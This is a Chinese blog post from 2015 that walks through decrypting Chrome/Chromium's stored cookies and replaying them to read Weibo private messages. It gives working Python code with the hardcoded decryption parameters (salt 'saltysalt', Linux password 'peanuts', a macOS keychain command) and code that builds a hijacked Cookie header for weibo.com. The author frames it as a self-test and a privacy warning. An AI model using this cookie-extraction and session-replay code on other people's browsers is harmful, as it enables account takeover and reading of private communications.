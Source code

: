 title: 利用cookie劫持微博私信 
tags: 
- http
- cookie
- python
- aes
- chrome
category: coding
date: 2015-02-27 23:15
---

记得还是在学Qt编程的时候，做过一个练手项目，产品是一个搜索Chrome的cookie内容的小软件。Chrome的cookie保存在用户目录的一个sqlite文件中，具体路径上网搜一下就知道了。当时比较天真，想看看cookie里面有没有明文保存的密码，结果当然是得到一堆乱码，最后就不了了之了。
<!-- more --> 
直到前几天，我正在网上看一篇关于cookie的文章的时候，忽然想起一件事情，我需要密码的原因无非是用来登录，我既然有了cookie直接发给服务器就可以了，又有什么必要了解cookie的内容？我顺手用chrome打开了微博私信查看下它的请求流程：
![cookie-request-flow](http://thumbsnap.com/s/mwkbI50J.png)


貌似理论上没有什么障碍了，不过还是要做个试验验证一下，我准备尝试用python写个小程序模拟浏览器向微博服务器发起私信消息的页面请求。

当然首先还是让我的小伙伴给我发条私信：
![cookie-message](http://thumbsnap.com/i/Gtlt6d5Y.png)
##具体实现
整个实验我简单的作了个概念图：
![cookie-flow](http://thumbsnap.com/i/2nneEq3T.png)

实验主要分为以下几个步骤：
 * 从chrome的sqlite文件中提取cookie
 * 模拟浏览器组装header
 * 向服务器发起目标页面的请求

###提取chrome的cookie信息
chrome的cookie保存路径在三大操作系统Windows、Linux和OSX上都不尽相同，以linux为例，它的保存路径就是`～/.config/chromium/Default/Cookies`，我们先用sqlite3程序把这个文件载入进来看看：
![cookie-tables](http://thumbsnap.com/i/uN4qraCk.png)
cookie信息都保存在表`cookies`中，但是才刚开始就出现了意想不到的问题：
![cookie-values-problem](http://thumbsnap.com/i/KjNIWNZF.png)

表里面的值和记忆中的大部分都是一样的，唯独最重要的value一项，居然是空的，而在末尾倒是多了个`encrypted_value`項。谷歌了一下，了解到在chrome版本33之前，cookie都是直接存储的，在33+之后，谷歌开始对cookie的信息进行了加密。顺便感慨下时光飞逝，不知不觉又老了几个版本。chrome在windows上加密采用的是CryptUnprotectData函数，解密方法大家可以看[这里](http://www.ftium4.com/chrome-cookies-encrypted-value-python.html)。Linux和OSX上的加密方法相似，都采用的是AES(CBC)加密方法，了解密码学的都知道对这个数据进行解密至少需要好几个值，salt，key length，iv，password，iterations等等。不过不幸的是一位国外的网友n8henrie在浏览了chromium源码之后把这些值统统找到了，以下是他原话：
 
* salt is `b'saltysalt'`
* key length is `16`
* `iv` is 16 bytes of space `b' ' * 16`
* on `Mac OSX`:
    `password` is in keychain under `Chrome Safe Storage`
    I use the excellent keyring package to get the password
    You could also use bash: `security find-generic-password -w -s "Chrome Safe Storage"`
    number of iterations is `1003`
* on Linux:
    password is `peanuts`
    number of iterations is `1`

顺便贴出他给出的源代码(可能是原作者的失误，在clean函数中忘记调用了ord函数，特此补上)：

```
#! /usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

# Function to get rid of padding
def clean(x): 
    return x[:-ord(x[-1])].decode('utf8')

# replace with your encrypted_value from sqlite3
encrypted_value = ENCRYPTED_VALUE 

# Trim off the 'v10' that Chrome/ium prepends
encrypted_value = encrypted_value[3:]

# Default values used by both Chrome and Chromium in OSX and Linux
salt = b'saltysalt'
iv = b' ' * 16
length = 16

# On Mac, replace MY_PASS with your password from Keychain
# On Linux, replace MY_PASS with 'peanuts'
my_pass = MY_PASS
my_pass = my_pass.encode('utf8')

# 1003 on Mac, 1 on Linux
iterations = 1003

key = PBKDF2(my_pass, salt, length, iterations)
cipher = AES.new(key, AES.MODE_CBC, IV=iv)

decrypted = cipher.decrypt(encrypted_value)
print(clean(decrypted))
```
我稍微改了下源代码，对上图header里的cookie的第一項尝试进行解密：
```
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

def clean(x): 
    return x[:-ord(x[-1])].decode('utf8')

def decrypt(encrypted_value):
    encrypted_value = encrypted_value[3:]

    salt = b'saltysalt'
    iv = b' ' * 16
    length = 16

    my_pass = 'peanuts'
    my_pass = my_pass.encode('utf8')

    iterations = 1

    key = PBKDF2(my_pass, salt, length, iterations)
    cipher = AES.new(key, AES.MODE_CBC, IV=iv)
    decrypted = cipher.decrypt(encrypted_value)
    
    return clean(decrypted)

cx = sqlite3.connect(os.path.expandvars('$HOME') + '/.config/chromium/Default/Cookies')
cu = cx.cursor()

cu.execute("select * from cookies where host_key = '.weibo.com' and name = 'SINAGLOBAL'")
    
res = cu.fetchone()
    
print decrypt(res[len(res)-1])
```

结果显示n8henrie给出的值确实是正确的，解密成功。
![cookie-value-chrome](http://thumbsnap.com/i/CjKIZd6R.png)
![cookie-chomre](http://thumbsnap.com/i/ZwerOWIt.png)

这个值我们不知道有什么意义，因为本来就不需要，直接把它发给服务器就好，服务器自己知道怎么解密的。

cookie值解密出来之后，感觉就像是突然变成了宿管阿姨，手里握着整栋宿舍的钥匙。
###组装header
组装header这里比较容易了，基本上照着上面截下来的Chrome的header照抄就好了，不过要注意的是记得把`Accept-Encoding:gzip，deflate，sdch`这一项去掉，不然返回的数据是经过压缩的，最后再加上解密出来的cookie，一个完整的header就出来了。

```
import sqlite3
import urllib2
import os

cx = sqlite3.connect(os.path.expandvars('$HOME') + '/.config/chromium/Default/Cookies')
cu = cx.cursor()
cu.execute("select * from cookies where host_key = '.weibo.com'")

cookies = ''

for res in cu.fetchall(): 
    cookies += res[2] + '=' + decrypt(res[len(res)-1]) + '; '

url = 'http://weibo.com/messages'

header = {
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        #'Accept-Encoding': 'gzip, deflate, sdch',
        'Accept-Language': 'zh-CN,zh;q=0.8,en;q=0.6,ja;q=0.4,zh-TW;q=0.2',
        'Cache-Control': 'max-age=0',
        'Connection': 'keep-alive',
        'Host': 'weibo.com',
        'Cookie': cookies,
        'User-Agent': 'Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/40.0.2214.111 Chrome/40.0.2214.111 Safari/537.36'
}
request = urllib2.Request(url, headers=header)
```
###发送请求
最后一步发送请求，把返回的数据打开看一下，私信消息已经在里面了。
![cookie-msg-decode](http://thumbsnap.com/i/RhdHDij2.png)

##结语
没想到整个过程还算是比较顺利的，而且还是在linux平台。随后我又在windows和OSX上进行了试验，windows的解密要更简单一点，而在OSX上获取`Chrome Safe Storage`的`password`的时候系统提醒需要获取授权，也就是说从目前来看只有苹果系挡住了这次攻击。不得不说cookie确实给我们带来了太多的便利，但是与此同时也牺牲了太多的安全性，网络发展到今天很多事情已经超出可控的范围，尤其是在中国这种软件氛围，谁知道各大软件产商有什么做不出来的，想要保护好自己，只能靠自己平时多长点心眼了。

##Q&A
* Q：为什么我直接用你的代码返回404？
* A：你要先用chrome至少浏览一次私信，不然哪来的cookie。
<br />
* Q：为什么选择微博私信做实验？
* A：因为我知道你们用的是微信而不是私信。
<br />
* Q：你是在本机运行的，劫持自己的信息可以，怎么劫持别人的信息？
* A：一般人不行，但是软件产商可以。
<br />
* Q：为什么每个用户只有一条私信？不可以看到所有的对话嘛？
* A：可以，但这里只是做为实验，不可有小人之心，但不能不防小人
<br />
* Q：有了cookie除了看私信还能干什么？
* A：不知道。

最后感谢下caixpp童鞋发了封私信，还有，用完数据库记得close。
##References
* http://stackoverflow.com/questions/23153159/decrypting-chrome-iums-cookies/23727331#23727331
* http://n8henrie.com/2014/05/decrypt-chrome-cookies-with-python/
* http://www.ftium4.com/chrome-cookies-encrypted-value-python.html

##转载请注明
原文地址： [http://mafagan.sinaapp.com/2015/02/26/cookie-hack/](http://mafagan.sinaapp.com/2015/02/26/cookie-hack/)
